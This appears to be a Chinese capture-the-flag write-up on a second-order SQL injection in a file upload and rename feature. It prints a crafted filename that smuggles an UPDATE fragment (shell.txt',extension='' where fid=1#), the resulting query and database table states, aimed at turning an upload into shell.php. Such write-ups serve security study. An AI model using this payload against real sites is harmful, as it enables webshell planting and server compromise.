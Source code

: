![](<../.gitbook/assets/image (21).png>)

一开始上传shell.txt数据库如下

<table><thead><tr><th width="150" data-type="number">fid</th><th width="150" align="center">filename</th><th width="150" align="center">oldname</th><th width="150" align="center">view</th><th align="center">extension</th></tr></thead><tbody><tr><td>1</td><td align="center">shell</td><td align="center"></td><td align="center">0</td><td align="center">.txt</td></tr></tbody></table>

再上传`shell.txt',extension='' where fid=1#.txt`数据库如下



<table><thead><tr><th width="150" data-type="number">fid</th><th width="150" align="center">filename</th><th width="150" align="center">oldname</th><th width="150" align="center">view</th><th align="center">extension</th></tr></thead><tbody><tr><td>1</td><td align="center">shell</td><td align="center"></td><td align="center">0</td><td align="center">.txt</td></tr><tr><td>2</td><td align="center">shell.txt',extension='' where fid=1#</td><td align="center"></td><td align="center"></td><td align="center">.txt</td></tr></tbody></table>

此时upload目录下只有两个文件，`shell.txt`和`shell.txt',extension='' where fid=1#.txt`

重命名`shell.txt',extension=''%20where%20fid=1#`为`shell.php`

首先select获取的oldname数据也就是`shell.txt',extension=''%20where%20fid=1#`的后缀为`.txt`

然后执行update，`update file set filename='shell.php', oldname='shell.txt',extension='' where fid=1#' where fid=2`

再进行rename，把`shell.txt',extension=''%20where%20fid=1#.txt`重命名为`newname+extension`，也就是`shell.php.txt`，现在upload目录有两个文件，`shell.php.txt`和`shell.txt`

<table><thead><tr><th width="150" data-type="number">fid</th><th width="150" align="center">filename</th><th width="150" align="center">oldname</th><th width="150" align="center">view</th><th align="center">extension</th></tr></thead><tbody><tr><td>1</td><td align="center">shell.php</td><td align="center">shell.txt</td><td align="center">0</td><td align="center"></td></tr><tr><td>2</td><td align="center">shell.txt',extension='' where fid=1#</td><td align="center"></td><td align="center">0</td><td align="center">.txt</td></tr></tbody></table>
